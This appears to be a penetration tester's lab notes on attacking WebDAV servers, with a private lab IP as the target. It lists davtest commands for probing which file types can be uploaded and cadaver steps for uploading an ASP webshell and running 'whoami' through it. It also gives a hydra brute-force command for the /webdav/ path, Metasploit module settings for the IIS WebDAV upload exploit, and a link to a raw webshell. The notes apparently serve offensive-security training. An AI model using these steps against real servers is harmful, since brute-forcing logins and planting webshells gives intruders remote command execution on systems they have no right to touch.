


# Webdav

- Requires creds to carry out attacks
- **Davtest** is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.
- **Cadaver** is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

- run nmap script http-enum if port 80 is open : /webdav/ should exist
- `davtest -url http://10.0.16.177/webdav`
  
  

- `davtest -auth <user>:<password> -url http://10.0.16.177/webdav` : should tell what file extensions could be uploaded like asp for sending potential payloads
  
  
  
- /usr/share/webshells/asp/ - stores webshells
- cadaver http://10.0.16.177/webdav
	- enter legit creds
	- put /usr/share/webshells/asp/webshell.asp
	- access backdoor using browser - http://10.0.16.177/webdav/webshell.asp
	- http://10.0.16.177/webdav/webshell.asp?cmd=whoami

# Hydra

- `hydra -L <userlist> -P <passlist> <ip> http-get /webdav/`

# Metasploit

-	to get interactive session
- exploit/windows/iis/iis_webdav_upload_asp - use this module
	- set PATH /webdav/metasploit%RAND%.asp
	- set HttpUsername <user>
	- set HttpPassword <pass>

# References:

1. DAVTest (https://github.com/cldrn/davtest)
2. Cadaver (https://github.com/grimneko/cadaver)
3. ASP Webshell (https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp)